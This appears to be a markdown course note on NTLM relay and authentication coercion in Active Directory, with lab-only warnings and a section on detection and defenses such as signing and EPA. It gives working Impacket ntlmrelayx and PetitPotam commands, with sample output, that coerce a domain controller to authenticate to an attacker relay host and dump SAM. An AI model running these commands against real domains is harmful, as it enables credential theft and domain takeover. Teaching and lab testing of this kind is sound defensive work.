

# 📡 NTLM Relay & Authentication Coercion

> [!warning] Authorized Active Directory simulation only
> Relay and coercion manipulate live authentication between real machines. Run only in a lab domain you own, against canary hosts, and prove with a benign action. Never relay or coerce production systems.

## Parent Learning Order
Active Directory Architecture & Enumeration -> Kerberos & NTLM Attacks -> Active Directory Privilege Escalation -> NTLM Relay & Authentication Coercion -> Active Directory Certificate Services Security -> Domain Persistence & Trust Abuse

## Passing Someone Else's Login to a Third Party

In Pass-the-Hash you *stole* a hash. **NTLM Relay** is subtler and often needs no theft: when a victim authenticates to a machine you control, you don't crack their response — you **relay** it, in real time, to a *different* target that accepts NTLM, authenticating to that target *as the victim*. You are a man-in-the-middle for authentication: the victim thinks they logged into your server; you used their login to log into someone else's.

The catch is you must get a victim — ideally a privileged one or a computer account — to authenticate to you. That is where **authentication coercion** comes in: techniques that *force* a target (often a Domain Controller or server) to authenticate to an attacker-controlled host on demand. Coercion + relay is a devastating combination: coerce a DC to authenticate to you, relay that authentication to a service that grants domain control.

> [!tip] The analogy, and where it breaks
> NTLM relay is like a dishonest receptionist: you hand them your ID to check in, and while you wait they walk to the bank next door and use your ID to withdraw money — your credential, used elsewhere, in real time. The analogy breaks on coercion: the attacker can *summon* the victim to the desk on command (force a DC to authenticate), so they don't wait for a victim to wander in — they compel the exact high-value victim they want, whenever they want.

**Prerequisites:** NTLM authentication (challenge-response), SMB signing, and AD architecture.

## Why Relay Works: Missing Signing

NTLM relay is possible because NTLM authentication, by itself, does not bind the authentication to the *channel* it travels over. If the target service does not require **signing** (SMB signing, LDAP signing, channel binding), it cannot tell that the authentication it received was relayed from elsewhere rather than performed directly. So:

1. Victim authenticates to the attacker (voluntarily or coerced).
2. Attacker relays the NTLM messages to a target that lacks signing.
3. The target accepts, believing the victim authenticated to it directly.
4. Attacker now has an authenticated session on the target *as the victim*.

The root defense is therefore **signing/channel binding** — it binds authentication to the connection, so a relayed authentication no longer validates. The vulnerability is the *absence* of signing on the target.

```bash
# set up a relay: capture inbound NTLM and relay to a target lacking SMB signing (lab)
# ntlmrelayx relays to 10.0.0.20 and, if the relayed identity is admin there, dumps SAM
impacket-ntlmrelayx -t smb://10.0.0.20 -smb2support 2>&1 | grep -iE 'Servers started|Setting up' | head -2
```

```text
[*] Setting up SMB Server
[*] Servers started, waiting for connections
```

The relay is armed. Now something must authenticate to it — which coercion provides.

## Coercion: Forcing the Victim to Authenticate

Coercion techniques abuse Windows features that make a machine connect (and authenticate) to an attacker-supplied path:

- **PetitPotam** — abuses the EFSRPC interface to force a machine (including a DC) to authenticate to an arbitrary host.
- **PrinterBug (SpoolSample)** — abuses the print spooler's RPC to coerce authentication.
- **Other RPC coercion** — several interfaces (DFS, etc.) can be abused similarly.

The signature attack chain: **coerce a DC → relay its computer-account authentication to AD CS or LDAP → gain domain control.** A computer account authenticating is powerful because computer accounts often have significant rights, and a DC's computer account is Tier 0.

```bash
# coerce the DC (10.0.0.10) to authenticate to the attacker relay (10.0.0.99) — lab only
impacket-petitpotam -u canary -p 'CanaryPass1' -d corp.lab 10.0.0.99 10.0.0.10 2>&1 | grep -iE 'attack|coerc|success' | head -2
```

```text
[*] Attempting to coerce authentication via EFSRPC
[+] Coercion successful — target authenticated to 10.0.0.99
```

The DC was *forced* to authenticate to the attacker's relay. Combined with the armed relay, its authentication is now relayed to a target that grants privilege — the full coerce-and-relay chain, proven in a lab against canary hosts.



## Coercion aimed at the wrong machine

- **Touching production.** Coercion forces real machines to authenticate; relay hijacks it. Lab-only, canary hosts, benign proof — a mis-aimed coercion hits a production DC.
- **Signing blocks it.** If the target requires signing/channel binding (SMB signing, LDAPS with channel binding, EPA), the relay fails — which is the *good* result and the fix. A failed relay against a signed target is a control working.
- **Relay target selection.** You cannot relay back to the same host (reflection is blocked); you relay to a *different* target lacking signing. Choosing a valid relay target is the skill.
- **Coercion patched.** PetitPotam/PrinterBug have patches; a failed coercion may mean a patched target — try alternative coercion vectors before concluding safe.
- **Computer-account power.** Relaying a computer account (especially a DC) is far more impactful than a user; identify what you coerced.

## Security Implications — Detection & Defense

- **Require signing everywhere** — SMB signing, LDAP signing, and LDAP channel binding, plus Extended Protection for Authentication (EPA) on AD CS web endpoints. Signing binds authentication to the channel, defeating relay categorically. This is *the* fix.
- **Disable NTLM where possible** — moving to Kerberos-only removes the relay-able protocol; audit and restrict NTLM use.
- **Patch and disable coercion vectors** — patch PetitPotam/PrinterBug, disable the print spooler on DCs, and restrict the abused RPC interfaces.
- **Mark Tier 0 accounts sensitive** and restrict where computer accounts can authenticate, limiting the blast radius of a relayed computer account.
- **Detection:** unexpected authentication from a DC or server to an unusual host (the coercion signature), NTLM authentication where Kerberos is expected, and relay-tool network patterns are the signals — a DC$ authenticating to a random workstation is a strong tell.

## Summary

You should now be able to:

- Explain how relay uses a victim's authentication against a third party, and how coercion forces the victim to authenticate.
- Confirm a relay target lacks signing, arm a relay, coerce a canary DC, and prove the relayed access with a benign action.
- Explain why signing/channel binding/EPA defeats relay categorically, why relaying a computer account (especially a DC) is Tier 0 impact, and how disabling NTLM and patching coercion vectors remove the chain.

---
> 🔼 Up: [[Active Directory & Identity Exploitation]]
